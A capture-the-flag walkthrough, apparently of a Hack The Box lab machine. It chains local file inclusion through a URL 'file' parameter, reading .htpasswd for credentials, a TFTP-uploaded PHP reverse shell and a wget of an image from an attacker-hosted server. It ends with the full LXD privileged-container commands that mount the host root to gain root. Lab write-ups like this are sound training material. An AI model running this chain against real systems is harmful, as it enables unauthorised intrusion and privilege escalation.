

| Difficulty |  |  IP Address   |  |
| :--------: |--| :-----------: |--|
|  Very Easy |  | 10.129.42.205 |  |

---

### [ What service is running on the target machine over UDP? ]

As always, we start off with a basic nmap scan on the target machine:

```
sudo nmap -sC -sV -vv -T4 10.129.42.205 
```


Looks like we only have a single port open: **80 (HTTP)**

Since nmap scans run using TCP by default, let's now try running a **UDP** scan to see if we can enumerate any services running on UDP:

```
sudo nmap -sU -sC -sV -vv -T4 10.129.42.205 
```

*(To run a UDP scan, we use the `-sU` option)*


We have a bunch of services that are running on UDP, but the one that especially interests us is **TFTP** running on port **69**.

---

### [ What class of vulnerability is the webpage that is hosted on port 80 vulnerable to? ]

Let's take a look at that HTTP website:


Immediately I noticed something alarming in the URL of the home page:


It seems that the web server is returning a file whose path is directly provided to the `file` parameter in the GET request. This screams file inclusion to me, so let's see if we can provide the path to the **/etc/passwd** file on the machine and read it:


Nice, it works! With this vulnerability, we can access files on the target machine, including files that we upload later on.

The webpage is vulnerable to **Local File Inclusion** vulnerability.

---

### [ What is the default system folder that TFTP uses to store files? ]

I first did some research on **TFTP (Trivial File Transfer Protocol)**.

---

*TFTP is a simplified version of FTP which uses UDP to upload and download files between network devices. What's important to note is that user authentication is not required to transfer files using TFTP.*

---

**From [here](https://help.ubuntu.com/community/TFTP**):**

The default root directory where files will be stored is: **/var/lib/tftpboot/**

---

### [ Which interesting file is located in the web server folder and can be used for Lateral Movement? ]

If we use Wappalyzer on the web server, we see that it is running Apache:


Apache contains a file called **.htpasswd** that contains user authentication information. It can normally be found in **/var/www/html/** or **/etc/apache2/**.

Let's try to read it using the LFI attack from before:


Great, we now have a working set of credentials:

> mike : Sheffield19 

The interesting file is: **.htpasswd**

---

### [ What is the group that user Mike is a part of and can be exploited for Privilege Escalation? ]

Unfortunately for us, we are not able to log into the target machine via SSH as it is not open. Another way in would be to open a reverse shell.

Let's use TFTP to upload a reverse shell script. We can then have the web server execute the script by accessing it using the LFI vulnerability that we identified earlier on.

*(I'll be using the PHP reverse shell script from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell))*

To upload the reverse shell using TFTP, we can use a nifty Python library called **tftpy**.

We use the following Python script to upload our file:

```python
import tftpy

client = tftpy.TftpClient('10.129.42.205', 69)
client.upload("shell.php", "/home/fatalfuric/Desktop/included/shell.php", timeout=5)
```

After running this, our reverse shell script will be uploaded to **/var/lib/tftpboot/shell.php** on the target machine.

To open the reverse shell, all we have to do is to set up a netcat listener on our local machine, then go to `http://10.129.42.205/?file=/var/lib/tftpboot/shell.php`:


And we're in :smiling_imp:

Since we know mike's password from earlier, we can move laterally to his account by running `su mike`:


If we run `id`, we can see that mike is part of a group called **lxd**:


---

### [ When using an image to exploit a system via containers, we look for a very small distribution. Our favorite for this task is named after mountains. What is that distribution name? ]

I did some research on **lxd**:

---

*LXD is a next generation system container and virtual machine manager. It offers a unified user experience around full Linux systems running inside containers or virtual machines.*

---

From my experience with Docker rooms previously, I know that **alpine** is a well-liked distribution for privesc using containers.

---

### [ What flag do we set to the container so that it has root privileges on the host system? ]

`security.privileged=true`

---

### [ If the root filesystem is mounted at /mnt in the container, where can the root flag be found on the container after the host system is mounted? ]

/mnt/root/

---

### [ Submit user flag ]

The **user flag** can be found in the home directory of mike:



---

### [ Submit root flag ]

I found an extremely useful [article](https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/) on how to exploit **lxd**.

*(Refer to the article for more detailed steps on how to carry out the exploit)*

Essentially, what we are trying to do is to run a privileged **alpine** container using **LXD** and **LXC** on the target machine. This grants us access to a root shell. From there, we mount the root directory on the actual machine to a directory on the container so that we can access files outside of the container while we're in the container as root.

**Steps:**

First, we need to build an image of alpine specifically for LXC/LXD containers on our local machine. We can do so using this Github repo:

```
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder/
sudo ./build-alpine
```

This will generate a **.tar.gz** archive which is our alpine image.

Next, we transfer this alpine image over to the target machine. We can do so with a simply Python HTTP web server:

```
#Setup HTTP server to host the image
sudo python -m SimpleHTTPServer 80
#Download the image remotely using Wget
wget http://X.X.X.X/alpine-vX.XX-1686-XXXXXXXX_XXXX.tar.gz
```

Once the transfer is done, we import the transferred image using `lxc` on the target machine:

```
lxc image import ./alpine.tar.gz --alias myimage 
```

Next, before actually using the image, we need to initialize LXD first and configure it's storage pool. For this configuration, just follow through the prompts and use the default settings:

```
lxd init
```

Once configuration is done, we run the alpine image and ensure that `security.privileged=true` flag is set. This will grant us unconditional root access:

```
lxc init myimage mycontainer -c security.privileged=true 
```

We then mount the root directory of the target machine to /mnt/root on the container:

```
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true 
```

By doing so, we will be able to access the root directory on the actual machine in the context of the root user by visiting /mnt/root on the container.

Finally, we start the container and use the `exe lxc` command to execute a command from it, in this case a shell:

```
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

I followed all of the steps and before knowing it, I had root access!


While the container doesn't actually contain anything, remember that we had previously mounted the root directory on the actual machine to /mnt/root of the container.

Hence, to access /root on the actual machine, we can simply navigate to /mnt/root/root on the container:


We can then obtain the **root flag**:


